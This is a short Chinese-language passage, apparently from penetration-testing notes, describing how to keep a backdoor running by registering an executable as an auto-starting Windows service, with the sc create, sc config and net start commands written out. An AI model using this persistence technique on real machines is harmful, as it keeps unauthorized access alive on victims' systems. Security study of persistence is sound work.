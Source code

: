 - 服务自启动后门（推荐，绑定服务）
  - 自启动服务一般是在电脑启动加载指定的服务程序，我们可以将exe文件注册为服务，也可以将dll文件注册为服务
  ```
  sc create test binpath= C:\Users\Administrator\Desktop\5555.exe （注意等号后面有空格）#创建服务
  sc config test start= auto  #设置服务为自动启动  
  net start test              #启动服物            
  ```
  ![Alt text](../../cyber_security/images/image113.png)
  - 成功连接后门